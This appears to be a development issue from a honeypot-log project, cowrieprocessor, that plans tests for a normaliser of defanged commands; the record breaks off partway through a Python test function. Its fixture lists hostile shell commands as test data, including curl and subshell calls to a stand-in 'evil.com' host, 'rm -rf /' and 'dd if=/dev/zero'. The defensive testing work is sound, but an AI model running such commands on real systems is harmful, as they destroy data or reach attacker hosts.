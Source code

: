 **Sub-tasks**:
- [ ] Document all 10+ edge cases in Phase 0 document
- [ ] Create test fixtures for each edge case
- [ ] Implement tests in `tests/unit/test_defanging_edge_cases.py`
- [ ] Verify all tests pass
- [ ] Add edge case handling to normalization code if needed

---

### Issue #3: Execute Vocabulary Consistency Tests

**Priority**: P0 - Critical Blocker  
**Labels**: `phase-0`, `defanging`, `testing`, `validation`  
**Estimated Effort**: 6 hours  
**Assignee**: TBD  
**Dependencies**: Issue #1 (DefangingAwareNormalizer)  

**Description**:
Execute vocabulary consistency tests to verify that defanged and non-defanged commands produce identical vectors after normalization. Critical validation for Phase 2.2.

**Acceptance Criteria**:
- [ ] All 9 test cases from Phase 0 document executed
- [ ] Test results documented in Phase 0 document
- [ ] 100% pass rate achieved
- [ ] Test failures (if any) root-caused and fixed
- [ ] Test execution automated in test suite
- [ ] Performance measured (vectorization time per command)

**Test Framework**:
```python
# File: tests/unit/test_vocabulary_consistency.py

import numpy as np
from cowrieprocessor.vectorization.defanging_normalizer import DefangingAwareNormalizer
from cowrieprocessor.vectorization.command_vectorizer import CommandVectorizer

def test_vocabulary_consistency():
    """Test that defanged and normalized commands produce identical vectors."""
    
    normalizer = DefangingAwareNormalizer()
    vectorizer = CommandVectorizer(max_features=1000, ngram_range=(1, 3))
    
    # Test cases from Phase 0 document
    test_cases = [
        {"original": "curl http://evil.com", "defanged": "cxrl hxxp://evil.com", "expected_equal": True},
        {"original": "bash script.sh", "defanged": "bxsh script.sh", "expected_equal": True},
        {"original": "rm -rf /", "defanged": "rx -rf /", "expected_equal": True},
        {"original": "dd if=/dev/zero", "defanged": "dx if=/dev/zero", "expected_equal": True},
        {"original": "cmd1 && cmd2", "defanged": "cmd1 [AND] cmd2", "expected_equal": True},
        {"original": "cmd1 | cmd2", "defanged": "cmd1 [PIPE] cmd2", "expected_equal": True},
        {"original": "cmd1; cmd2", "defanged": "cmd1[SC] cmd2", "expected_equal": True},
        {"original": "$(curl http://evil.com)", "defanged": "[SUBSHELL] cxrl hxxp://evil.com [SUBSHELL]", "expected_equal": True},
        {"original": "echo `whoami`", "defanged": "echo [BACKTICK] whoami [BACKTICK]", "expected_equal": True},
    ]
    
    results = []
    for case in test_cases:
        # Normalize both versions
        norm_original = normalizer.normalize_command(case["original"])
        norm_defanged = normalizer.normalize_command(case["defanged"])
        
        # Fit vectorizer on both (for initial vocabulary)
```